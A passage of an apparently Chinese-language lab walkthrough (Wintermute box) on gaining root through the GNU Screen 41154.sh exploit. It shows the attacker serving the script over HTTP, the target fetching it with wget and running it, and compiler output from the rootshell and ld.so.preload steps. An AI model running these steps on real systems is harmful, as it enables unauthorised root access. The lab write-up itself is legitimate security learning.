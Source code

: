 按照这个脚本先试一下，其大致逻辑在于创建两个c文件，再进行编译执行命令，运行一下：

```bash
# kali
python3 -m http.server 8888
# wintermute
wget http://192.168.244.132:8888/41154.sh
chmod +x 41154.sh
./41154.ssh
```

```text
~ gnu/screenroot ~                                                                         
[+] First, we create our shell and library...                                              
/tmp/libhax.c: In function 'dropshell':                                                    
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod' [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);                                                       
     ^~~~~ 
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid' [-Wimplicit-function-declaration]
     setuid(0);                              
     ^~~~~~                                                                                
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid' [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid' [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~   
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);                                                                           
     ^~~~~~~    
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);           
     ^~~~~~                                   
[+] Now we create our /etc/ld.so.preload file...                                            
[+] Triggering...                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.    
[+] done!                                     
No Sockets found in /tmp/screens/S-www-data.
```

这边的报错实际上是可以减少的，运行以下sed命令将脚本格式换行和缩进转化一下：

```bash
sed -i -e 's/\r$//' 41154.sh
```

- `-i`: 这个选项告诉sed在文件中直接进行修改，而不是输出到标准输出设备。
- `-e 's/\r$//'`: 这是sed的编辑命令。在这个命令中，`s` 表示进行替换操作，`\r$` 表示以回车符结尾的行（在Unix系统中通常不使用回车符），`//` 表示替换为空，即删除回车符。
